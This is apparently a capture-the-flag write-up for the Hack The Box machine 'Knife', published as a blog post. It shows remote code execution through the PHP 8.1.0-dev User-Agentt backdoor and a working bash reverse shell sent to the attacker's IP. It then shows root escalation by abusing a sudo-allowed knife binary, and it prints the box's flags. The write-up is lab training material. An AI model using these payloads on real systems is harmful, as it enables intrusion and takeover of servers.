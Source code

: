 ```yaml
---
layout: single
title: Knife - Hack The Box
excerpt: "Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary"
date: 2023-01-10
classes: wide
toc: true
toc_label: "Contenido"
toc_icon: "fire"
header:
  teaser: /assets/images/htb-writeup-knife/new3.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - PHP 8.1.0-dev - 'User-Agent' [RCE]
  - Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
---
```


<p align="center">
<img src="/assets/images/htb-writeup-knife/knife_logo.png">
</p>

Knife is a quick and fun easy box where we have to abuse of the User-Agent of PHP 8.1.0-dev to have RCE and after that be root by taking advantage of the Knife binary.

## PortScan

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-10 13:57 CST
Nmap scan report for 10.10.10.242
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

The Knife website runs on port 80 and has the following technologies reported by wappalyzer 

![](/assets/images/htb-writeup-knife/website1.png)

## Enumeration

I use curl and I see this that version of PHP is vulnerable to RCE
```bash
curl -s http://10.10.10.242 -I
```
```bash
HTTP/1.1 200 OK
Date: Tue, 10 Jan 2023 20:05:33 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

We can found information here 
- [https://www.exploit-db.com/exploits/49933](https://www.exploit-db.com/exploits/49933)

I can abuse of the User-Agent because is vulnerable to RCE

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
```
```bash
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```

And is vulnerable so we can send a reverse shell 
```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.21/443 0>&1\"');" | html2text
```
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.242] 60468
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

We can have a best bash terminal so we can do
```bash
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
reset xterm
```
## User flag

We can see the first flag

```bash
james@knife:~$ cat user.txt 
9adc315d20ef969531a7b07c66a31d19
```

## Root

After enumerating the system I can see that I can run this binary as root, we can use Gtfobins

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

-[https://gtfobins.github.io/gtfobins/knife/#sudo](https://gtfobins.github.io/gtfobins/knife/#sudo)

We follow the instructions and we're root

```bash
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
# bash
root@knife:/home/james# cd /root
root@knife:~# cat root.txt 
f8c5f763d30a3ed17dd24c4c216fd87b
```

## Another way to be root

You can abuse of the pkexec because is SUID but I won't do it

```bash
james@knife:/$ find -perm -4000 2>/dev/null | grep -v snap
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/sudo
./usr/bin/su
./usr/bin/fusermount
./usr/bin/pkexec
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/umount
./usr/bin/chfn
./usr/bin/chsh
./usr/bin/mount
./usr/bin/newgrp
./usr/bin/at
```

-[https://github.com/Almorabea/pkexec-exploit](https://github.com/Almorabea/pkexec-exploit)

Only transfer the script to the machine and execute and that's all




